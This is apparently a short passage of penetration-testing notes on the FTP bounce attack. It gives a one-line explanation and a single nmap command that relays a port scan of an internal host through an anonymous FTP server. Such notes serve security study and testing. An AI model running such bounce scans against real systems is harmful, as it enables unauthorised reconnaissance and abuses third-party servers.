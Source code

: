 ### Bounce Back Attack

This type of attack uses the FTP server to deliver outbound traffic to another device. 

```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

